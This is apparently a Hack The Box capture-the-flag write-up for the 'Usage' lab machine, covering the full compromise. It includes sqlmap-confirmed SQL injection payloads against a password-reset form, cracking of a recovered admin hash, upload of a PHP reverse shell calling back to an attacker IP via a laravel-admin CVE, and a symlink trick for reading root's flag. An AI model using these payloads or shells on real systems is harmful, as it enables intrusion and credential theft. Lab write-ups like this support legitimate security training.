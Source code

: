 IP = `10.10.11.18`

### Enumeration
```bash
sudo nmap -p22,80 -sCV -A -Pn $IP
[SNIP] ... 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Daily Blogs
|_http-server-header: nginx/1.18.0 (Ubuntu)
... [SNIP]

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   37.18 ms 10.10.14.1
2   37.24 ms usage.htb (10.10.11.18)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.59 seconds
```
Domain found `usage.htb`. 

After trying some random stuff and running `gobuster` directory brute forcing, I didn't find anything useful. However after making an account and heading to `/forgot-password` I found an SQLi in the `email` input. Ex:
`email=a@a.com' AND 1=1;-- -`
```bash
cat reqq.txt 
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6Ii82RmVtOXhNc05Gcm92c0xmY3J4Wmc9PSIsInZhbHVlIjoiSjlidzhvVDBXMEF6ajhvUGg2cVRwQ2pJRXB1SDViZnFJWGIzQU1KbUlvOGU2UWxEVVFBWEtqVGpDT2xidW5iNTBZYjJsS2pzT000amNHcjB2dldEQzB1RnQ3VWtJOHZJV1QvSGNaVTlGTGx1L0xUS1JCZWI3eVJmZXBlNnl6aGoiLCJtYWMiOiJiZDBjNTA5MTY5YmI5OGRlYzYwOTdmYTkwZTg2OTQ1NmQ1MDM0ZDRiMmU3YWYxNDMzMTE1MDg5NWQxYTM4MWFkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im1IK0xjL2p5T0hHOGx5NWVDV2wxeUE9PSIsInZhbHVlIjoiQTBKNDJWOU9uNHljdlVGMldJemYrWS8rOXAycXB0TStnSG1zU2paZDU2Qy9tY21YZ1kyZzhkWHFSUlRGTHU3Y3RuNWFaejFGU3FjdlFjRjdXaEpKeVFCSjliUERvcXVqbERQOVV3cjZGNkFGNVp2Q2IvWTdsQ0M2Z1RYTnd2MVAiLCJtYWMiOiJhOWE4YWYyZGE5NDhiYTc5NGY0MTUwYThjYzE0ODE5NGYxOGQyNzU2YzkyZmVkODA3ZDNhZTcyMTAzYzE0MjMxIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=BDou88iee4DWi2UbrIeFOOqp5zIUYNj0VOia0XA6&email=+a%40a.com

```
After capturing this request using burpsuite and running it through `sqlmap` I didn't find a ton of useful information the first few times however after turning up the risk/level paramter's and adding some other's I was able to find the database table `usage_blog` that could be targeted more specifically.

```bash
sqlmap -r reqq.txt -p email --batch --level 5 --risk 3 --dbms=mysql --dbs --dump --tables --threads 5

[13:08:07] [INFO] parsing HTTP request from 'reqq.txt'
[13:08:07] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
[SNIP] ...

[13:13:39] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 722 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=BDou88iee4DWi2UbrIeFOOqp5zIUYNj0VOia0XA6&email= a@a.com' AND 1005=(SELECT (CASE WHEN (1005=1005) THEN 1005 ELSE (SELECT 3960 UNION SELECT 3913) END))-- -

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=BDou88iee4DWi2UbrIeFOOqp5zIUYNj0VOia0XA6&email= a@a.com' AND 9393=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- cnFS
---
[13:13:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[13:13:48] [INFO] fetching database names
[13:13:48] [INFO] fetching number of databases
[13:13:48] [INFO] retrieved: 3
[13:13:50] [INFO] retrieving the length of query output
[13:13:50] [INFO] retrieved: 18
[13:14:19] [INFO] retrieved: information_schema             
[13:14:19] [INFO] retrieving the length of query output
[13:14:19] [INFO] retrieved: 18
[13:14:47] [INFO] retrieved: performance_schema             
[13:14:47] [INFO] retrieving the length of query output
[13:14:47] [INFO] retrieved: 10
[13:15:07] [INFO] retrieved: usage_blog             
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```
`information_schema` - Standardized set of read-only views that provide information about all the SQL Server objects (databases, tables, columns, etc.). 
`performance_chema` - Provides a way to inspect internal execution of the server at runtime. It includes a number of tables that can be queried to assess the performance of various operations to diagnose problems.
`usage_blog` - Blog database

![[Pasted image 20240424135006.png]]

As you can see we successfully got the hash for the `Administrator` from the db/table: `usage_blog.admin_users`.

After copying the hash and echoing it to a file, then running `hashid -m <file>` on it... It output's the mode as:
```bash
hashid -m hash                                            
--File 'hash'--
Analyzing '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
--End of file 'hash'-- 
```

Then running hashcat:
```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Credentials found: `administrator:whatever1`

The credentials didn't work on the original login page so I then though of running gobuster dns enumeration using the wordlist `/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt`. 

```bash
gobuster dns -d 'usage.htb'  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     usage.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: admin.usage.htb
---
[SNIP]
```

Here... the credentials worked just fine... `admin:whatever1`

### Foothold
- [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) - RCE in larravel-admin that allows attackers to bypass file upload restrictions, and attackers can upload files in `*.php` format for code execution.

Using a tool I wrote, I then created a php reverse shell file using the `PentestMonkey` PHP reverse shell script.
```bash
genrevshell php -f shell.php -i 10.10.14.40 -p 4444 
---
[+] shell.php generated successfully using the PHP Reverse shell script!
```

After logging in, we can see it is a laravel-admin dashboard for managing services etc. getting a peek at what the site is running, we can see it is running `Laravel` version `10.18.0`. 

After a bit of research I found the CVE mentioned above and gave it a shot.

The CVE here basically is when changing the `.jpg` favicon image for the profile photo, you can intercept the request and change the file extension to `.php` which the server will then execute.

So, using `shell.php` from earlier that I generated; i simply made a copy of the reverse shell as `shell.jpg` and gave it a shot...

```bash
11  cd /var/www/html
   12  ls
   13  cat root.txt
   14  file root.txt
   15  strings ~/root/root.txt
   16  uname -a
   17  n
   18  uname -m
   19  cat /proc/version
   20  touch '@root.txt'
   21  ln -s -r /root/root.txt root.txt
   22  rm -f root.txt
   23  ln -s -r /root/root.txt root.txt
   24  sudo /usr/bin/usage_management
   
```

don't ask... just know it works.

poggers

